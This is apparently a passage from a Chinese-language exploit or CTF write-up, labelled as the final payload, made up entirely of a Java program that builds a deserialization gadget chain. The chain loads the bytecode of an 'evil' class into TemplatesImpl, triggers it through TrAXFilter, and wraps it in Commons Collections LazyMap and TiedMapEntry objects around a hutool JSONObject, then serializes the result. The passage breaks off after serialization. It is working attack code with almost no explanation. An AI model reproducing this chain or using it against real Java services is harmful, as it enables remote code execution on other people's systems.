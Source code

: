 最终 payload

```java
import cn.hutool.json.JSONObject;
import com.app.Myexpect;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.net.URLEncoder;
import java.util.*;

public class Demo {
    public static void main(String[] args) throws Exception {

        String result;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(TemplatesEvilClass.class.getName());

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{clazz.toBytecode()});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Myexpect expect = new Myexpect();
        expect.setTargetclass(TrAXFilter.class);
        expect.setTypeparam(new Class[]{Templates.class});
        expect.setTypearg(new Object[]{templatesImpl});

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("aa", "bb");

        Transformer transformer = new ConstantTransformer(1);

        Map innerMap = jsonObject;
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "k");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        innerMap.clear();

        Reflection.setFieldValue(transformer, "iConstant", expect);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream output = new ObjectOutputStream(baos);
        output.writeObject(expMap);
        output.flush();
        baos.flush();

```